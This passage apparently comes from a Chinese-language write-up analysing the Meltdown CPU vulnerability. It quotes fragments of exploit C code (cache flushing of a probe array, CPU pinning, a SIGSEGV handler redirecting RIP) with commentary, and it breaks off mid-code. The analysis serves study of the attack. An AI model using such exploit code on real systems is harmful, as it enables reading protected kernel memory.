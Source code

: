 9. 重复上述过程，理论上可以访问任何被禁区域


**代码分析**：
（代码引用自github: pabodin/meltdown-exploit)

* 1. 准备工作
 ```
 static char target_array[VARIANTS_READ * TARGET_SIZE];

void clflush_target(void)

{

	int i;


	for (i = 0; i < VARIANTS_READ; i++)

		_mm_clflush(&target_array[i * TARGET_SIZE]);

}

```

上述代码构建了数组probe_data,并通过mm_clflush将其清出cache。
此时，完成了Flush一步,probe_data数组在内存中，等待Reload。

```
tatic void pin_cpu0()

{

	cpu_set_t mask;



	/* PIN to CPU0 */

	CPU_ZERO(&mask);

	CPU_SET(0, &mask);

	sched_setaffinity(0, sizeof(cpu_set_t), &mask);

}

```

上述代码将线程和CPU绑定，从而保证rax的数据可以被获取
若不再同一个cpu核，由于进程调度中的上下文切换，会导致rax没有继续存在，从而无法传递窃取信息


 ```
  
  void sigsegv(int sig, siginfo_t *siginfo, void *context)

{

	ucontext_t *ucontext = context;



#ifdef __x86_64__

	ucontext->uc_mcontext.gregs[REG_RIP] = (unsigned long)stopspeculate;

#else
 ```